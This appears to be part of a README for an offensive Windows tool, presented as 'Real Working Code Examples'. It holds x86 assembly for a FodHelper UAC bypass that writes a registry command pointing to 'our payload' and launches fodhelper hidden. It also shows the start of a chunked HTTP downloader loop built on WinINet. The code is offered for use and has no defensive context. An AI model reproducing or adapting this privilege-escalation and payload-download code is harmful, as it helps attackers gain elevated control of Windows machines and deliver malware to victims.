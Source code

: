 ```ini
```

## 🔧 TECHNICAL IMPLEMENTATION

### Real Working Code Examples

#### UAC Bypass (FodHelper)
```asm
; Open registry key for fodhelper UAC bypass
lea eax, [ebp-4]
push eax
push 0
push 0
push KEY_ALL_ACCESS
push 0
push 0
push 0
push offset uac_fodhelper_key
push HKEY_CURRENT_USER
call RegCreateKeyExA

; Set command to execute our payload
push lstrlenA(offset config_target_executable)
push offset config_target_executable
push REG_SZ
push 0
push 0
push [ebp-4]
call RegSetValueExA

; Trigger fodhelper execution
push SW_HIDE
push offset uac_fodhelper_exe
call WinExec
```

#### HTTP Download with Encryption
```asm
; Initialize internet connection
push 0
push 0
push 0
push INTERNET_OPEN_TYPE_DIRECT
push offset http_user_agent
call InternetOpenA

; Download in 8KB chunks
download_loop:
    lea eax, [ebp-4]
    push eax
    push 8192
    push esi
    push request_handle
    call InternetReadFile
    
    ; Continue until complete
    test eax, eax
    jz download_complete
```
